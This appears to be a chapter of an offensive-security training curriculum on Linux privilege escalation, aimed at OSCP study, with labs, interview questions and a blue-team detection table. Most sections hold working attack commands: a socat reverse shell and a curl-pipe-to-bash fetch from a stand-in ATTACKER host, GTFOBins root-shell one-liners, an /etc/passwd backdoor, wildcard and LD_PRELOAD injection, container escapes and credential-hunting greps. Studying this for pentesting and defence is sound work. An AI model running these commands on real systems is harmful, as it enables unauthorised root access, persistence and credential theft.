

# 🐧 Linux Privilege Escalation

> You have a shell as a low-privilege user. You need root. Linux privesc is a **systematic enumeration problem** — there are roughly 12 well-known classes of misconfiguration, and one of them is almost always present. This chapter is the OSCP-grade Linux privesc reference.

---

## 1. The Mindset

The attacker landing on a fresh Linux host runs through a checklist:



The discipline: **enumerate everything before exploiting anything.** Skipping enumeration leads to wasted hours on dead-end PoCs.

---

## 2. Stabilize Your Shell

A `nc` reverse shell is barely usable — no Tab completion, no Ctrl+C, no proper terminal. Upgrade:

```bash
# Method 1 — Python PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'
# then in attacker shell:
Ctrl+Z
stty raw -echo; fg
# in victim shell:
export TERM=xterm
stty rows 38 columns 116    # match your terminal

# Method 2 — script
script /dev/null -c bash

# Method 3 — socat (best, if available on victim)
# attacker:
socat file:`tty`,raw,echo=0 tcp-listen:4444
# victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER:4444
```

Every privesc session starts with this. **Don't skip it.**

---

## 3. Enumeration Tools

Don't reinvent the wheel:

| Tool | Job |
|---|---|
| `LinPEAS` | The industry standard. Verbose, color-coded, finds 95% of issues. |
| `linEnum.sh` | Older, still useful. |
| `linux-smart-enumeration` (`lse.sh`) | More targeted output. |
| `pspy64` | Watches process events without root → catches cron jobs in action. |
| `ltrace`, `strace` | When you need to see what a binary does. |

Drop binaries via `wget`, `curl`, or your reverse-shell file-transfer trick:

```bash
# Quick HTTP server on attacker
python3 -m http.server 8000

# Pull on victim
curl http://ATTACKER:8000/linpeas.sh | bash
# or:
wget http://ATTACKER:8000/linpeas.sh -O /tmp/.lp && chmod +x /tmp/.lp && /tmp/.lp
```

We ship `scripts/system/linux_enum.py` — a pure-Python enumeration script that runs without bash, useful in restricted environments where common tools aren't allowed.

---

## 4. The 12 Classes of Linux Privesc

### 4.1 Kernel exploits

```bash
uname -a                    # kernel version
cat /etc/os-release         # distro

# searchsploit kernel <version>
# or: https://www.kernel.org/category/releases.html → CVE search
```

Recent juicy ones:
- **CVE-2022-0847 (Dirty Pipe)** — Linux 5.8+ < 5.16.11 → arbitrary file write → root
- **CVE-2021-4034 (PwnKit)** — `pkexec` env-var → root, ubiquitous in 2021
- **CVE-2023-32233 (Netfilter)** — kernel UAF → root

Compile on a matching distro/kernel; running mismatched binaries panics the kernel.

### 4.2 Sudo misconfigurations

```bash
sudo -l           # what can this user run?
```

Look for:

| Configuration | Exploit |
|---|---|
| `(ALL) NOPASSWD: ALL` | `sudo bash` |
| `(ALL) NOPASSWD: /usr/bin/vim` | In vim: `:!bash` |
| `(ALL) NOPASSWD: /usr/bin/find` | `sudo find . -exec /bin/sh \;` |
| `(ALL) NOPASSWD: /usr/bin/awk` | `sudo awk 'BEGIN {system("/bin/sh")}'` |
| `(ALL) NOPASSWD: /usr/bin/python3` | `sudo python3 -c 'import os; os.system("/bin/sh")'` |
| `(ALL) /usr/local/bin/myapp` | If `myapp` reads attacker-controlled config / has its own RCE |

The canonical reference: **GTFOBins** at gtfobins.github.io. Every binary that can be abused in sudo, SUID, or other contexts is documented there. Memorize the top 30.

Sudo CVEs:
- **CVE-2021-3156 (Baron Samedit)** — buffer overflow in sudo < 1.9.5p2 → root from any user
- **CVE-2023-22809** — `sudoedit` arg injection → arbitrary file edit as root

### 4.3 SUID / SGID binaries

```bash
find / -perm -4000 -type f 2>/dev/null            # SUID
find / -perm -2000 -type f 2>/dev/null            # SGID
find / -perm -4000 -newer /etc/hostname 2>/dev/null   # newer than something stable
```

Cross-reference with GTFOBins. Common wins:

```bash
# /usr/bin/find with SUID set
find . -exec /bin/sh -p \;     # -p preserves SUID privileges

# /usr/bin/nmap < 5.21 with SUID
nmap --interactive
> !sh

# /usr/bin/cp with SUID — overwrite /etc/passwd
echo 'root2:$1$x$5DrAAuyrBSfOAW7uy7yvR/:0:0::/root:/bin/bash' >> /tmp/passwd
cp /tmp/passwd /etc/passwd
su root2
```

Custom SUID binaries (in-house tools) are gold. Reverse them with `strings`, `ltrace`, or `ghidra`. They often invoke other commands relative to PATH → PATH hijack.

### 4.4 Capabilities (modern SUID alternative)

```bash
getcap -r / 2>/dev/null
```

If a binary has `cap_setuid+ep`, it can become root. GTFOBins lists capability-abuses.

```bash
# /usr/bin/python3 cap_setuid+ep
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# /usr/bin/perl cap_setuid+ep
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/sh"'

# /usr/bin/tar cap_dac_read_search+ep — read any file
/usr/bin/tar cf x.tar /etc/shadow
```

### 4.5 Cron jobs

```bash
cat /etc/crontab
ls -la /etc/cron.*
ls -la /var/spool/cron/crontabs/  # may be unreadable

# Catch root-cron actions in real-time
pspy64
```

Look for:
- Cron entries that run as root
- Scripts called by cron that you can write to
- Wildcard arguments (`tar -czf backup.tar.gz *` in a writable dir → wildcard injection)
- Relative-path commands in cron with writable dirs in PATH

```bash
# Wildcard injection — classic
echo 'echo "rooted" > /tmp/owned' > shell.sh
chmod +x shell.sh
touch -- '--checkpoint=1' '--checkpoint-action=exec=sh shell.sh'
# now wait for: tar -czf backup.tar.gz *
```

### 4.6 Writable PATH / LD_PRELOAD

If a script run by root invokes `ls` (no full path) and `/tmp` is in root's PATH, drop a malicious `ls` in `/tmp`.

`LD_PRELOAD` works when sudo preserves the env:

```bash
echo 'void _init(){unsetenv("LD_PRELOAD");setresuid(0,0,0);system("/bin/bash");}' > /tmp/x.c
gcc -fPIC -shared -nostartfiles -o /tmp/x.so /tmp/x.c
sudo LD_PRELOAD=/tmp/x.so any-allowed-binary
```

Check `/etc/sudoers` for `Defaults env_keep += "LD_PRELOAD"` (rare but lethal).

### 4.7 Credentials in files

```bash
# Search recursively, fast
grep -r --include='*.conf' --include='*.cnf' --include='*.ini' \
  -E '(password|passwd|secret|token|api[-_]?key)' /etc /var/www /opt /home 2>/dev/null

# Look in common spots
cat /etc/passwd /etc/shadow 2>/dev/null   # /etc/shadow only readable as root
cat /home/*/.bash_history /root/.bash_history 2>/dev/null
ls -la ~/.ssh/ /root/.ssh/ 2>/dev/null
cat /var/log/auth.log /var/log/syslog 2>/dev/null | grep -i passw
cat /etc/cron* /etc/init.d/* /etc/systemd/system/* 2>/dev/null | grep -i passw

# Backup files
find / -name '*.bak' -o -name '*.old' -o -name '*.swp' 2>/dev/null
```

Web app config files (`wp-config.php`, `.env`, `database.yml`) routinely hold DB credentials → DB privesc → app config → plaintext or weakly-hashed user passwords → SSH reuse → root.

### 4.8 NFS no_root_squash

```bash
cat /etc/exports
showmount -e localhost
```

If an export has `no_root_squash` and your user can mount it from another box (or you have access from a host you root):

```bash
# from attacker box (root)
mount -t nfs victim:/exports/data /mnt/x
cat <<'EOF' > /mnt/x/shell.c
#include <stdio.h>
int main() { setuid(0); setgid(0); system("/bin/bash"); }
EOF
gcc /mnt/x/shell.c -o /mnt/x/shell
chmod +s /mnt/x/shell
# back in victim shell:
/exports/data/shell
```

### 4.9 Docker / LXC group membership

```bash
groups        # are you in 'docker' or 'lxd'?
```

If yes:

```bash
# Docker group → instant root
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# LXD/LXC group
lxc image import alpine.tar.gz --alias myalpine
lxc init myalpine privesc -c security.privileged=true
lxc config device add privesc host disk source=/ path=/mnt/host recursive=true
lxc start privesc
lxc exec privesc /bin/sh
```

Group membership in `docker` / `lxd` / `disk` is **effective root**. Treat as root — and report it as root in pen-tests.

### 4.10 Writable /etc/passwd

```bash
ls -la /etc/passwd
# if writable as your user (rare but happens after misconfigured chmod)

openssl passwd -1 -salt x rooted     # generates hash
# append:
echo "user2:$1$x$generated$:0:0:::/bin/bash" >> /etc/passwd
su user2
```

### 4.11 Setcap & Linux capabilities edge cases

Beyond `cap_setuid`, look for:
- `cap_dac_read_search+ep` → read `/etc/shadow`
- `cap_dac_override+ep` → write any file
- `cap_chown+ep` → chown anything
- `cap_sys_ptrace+ep` → attach to any process

### 4.12 Service account / installed software CVEs

A box running a known-vulnerable service as root (legacy Tomcat, old MySQL, custom daemon) → exploit the service for root directly. Check:

```bash
ps auxf | head -50
ss -tlnp           # listening ports
dpkg -l | grep -iE '(jenkins|tomcat|jboss|nagios|zabbix)'
```

---

## 5. Container & Cloud Privesc Specifics

When the host is a **container**:

```bash
# Are you in a container?
ls /.dockerenv 2>/dev/null
cat /proc/1/cgroup 2>/dev/null | grep -E '(docker|kubepods)'
```

Container-specific paths to root (escape):
- Host paths bind-mounted (`/var/run/docker.sock`, `/`, `/etc`)
- Privileged container (`--privileged`) → device manipulation
- `CAP_SYS_ADMIN` capability
- Kernel exploits that escape through namespaces (Dirty Pipe, runc CVEs)

When on **cloud VMs**:

- IMDS reachable → cloud credentials → assume role (covered in Phase 4 cloud)
- Userdata script visible at `http://169.254.169.254/latest/user-data/` often contains secrets
- Cloud-init logs (`/var/log/cloud-init-output.log`) sometimes echo bootstrap secrets

---

## 6. The Workflow End-to-End

A 30-minute "find me anything" pass on a fresh Linux box:

1. Stabilize shell (5 min).
2. `id`, `sudo -l`, `groups`, `find / -perm -4000 …` — quick wins (5 min).
3. Drop and run `linpeas` while you read (10 min in real time, but you're reading the start).
4. Grep config and history files for credentials (5 min).
5. Check kernel + key services for CVEs (5 min).
6. **First** path you find with high confidence — exploit, document, move on.

Document **every** finding even if you exploited a different one. Your pentest report needs the full picture.

---

## 7. Hands-On Lab

Two essential resources:

- **TryHackMe Linux Privesc** room — covers the categories systematically.
- **HackTheBox** — every Linux box has at least one privesc path. After 20 boxes you'll have seen 90% of patterns.
- **OverTheWire Bandit** — old but still excellent for pure shell skills.

Specific exercises:
1. Find every SUID binary on your Kali; categorize known-safe vs known-exploitable.
2. Read every page of GTFOBins until the patterns blur. Then make flashcards.
3. Re-create cron-wildcard injection in a lab.
4. Compile and use `LD_PRELOAD` for sudo-allowed binaries.
5. Practice Dirty Pipe (CVE-2022-0847) on a kernel 5.13 lab VM.

---

## 8. Detection (Blue-Team View)

What a SOC sees during privesc:

| Activity | Telemetry |
|---|---|
| `linpeas` | `auditd` logs many `execve` of `find`, `ls`, `cat`, `getcap` from one process tree |
| Kernel exploit | Process suddenly running as uid=0 with no preceding `su`/`sudo` |
| Dirty Pipe | Specific syscall patterns (`splice` to read-only files) — eBPF detection |
| `ptrace` to root proc | `auditd` rule on `ptrace` syscall |
| New SSH key in authorized_keys | `auditd` watch on ~/.ssh/ |
| Sudo abuse | `auth.log` records every sudo invocation; review uncommon users |

Detection stack: `auditd` + `Falco` (eBPF-based, container-aware) + `osquery` for snapshots + Wazuh / Sysmon-for-Linux. **EDR has finally come to Linux** — expect it more in 2026 than ever.

---

## 9. Interview Questions

- A box has `cap_setuid+ep` on `/usr/bin/python3`. Walk through getting root.
- What's the difference between SUID and capabilities?
- Wildcard injection — give an example and describe how to fix it.
- Why is being in the `docker` group equivalent to root?
- A user can `sudo /usr/bin/less` — get root.
- Walk through checking if you're inside a container.

---

## 10. Tools Quick Reference

| Tool | Purpose |
|---|---|
| `linpeas.sh` | Comprehensive enumeration |
| `linEnum.sh` | Lightweight alternative |
| `pspy64` | Process snooping without root |
| `gtfobins.github.io` | Binary abuse reference |
| `linux_enum.py` (this curriculum) | Pure-Python enumerator |
| `ltrace`, `strace` | Trace library / syscalls |
| `setcap`, `getcap` | Capability inspection |

---

## 11. Further Reading

- HackTricks Linux privesc — book.hacktricks.wiki/en/linux-hardening/privilege-escalation
- *Linux Privilege Escalation Cookbook*, RedTimmy
- g0tmi1k's classic Basic Linux Privesc post
- *The Linux Programming Interface* (Kerrisk) — for system-level grounding

---

[← Auth & Sessions](web-auth-session.md) · [Windows Privilege Escalation →](windows-privesc.md)
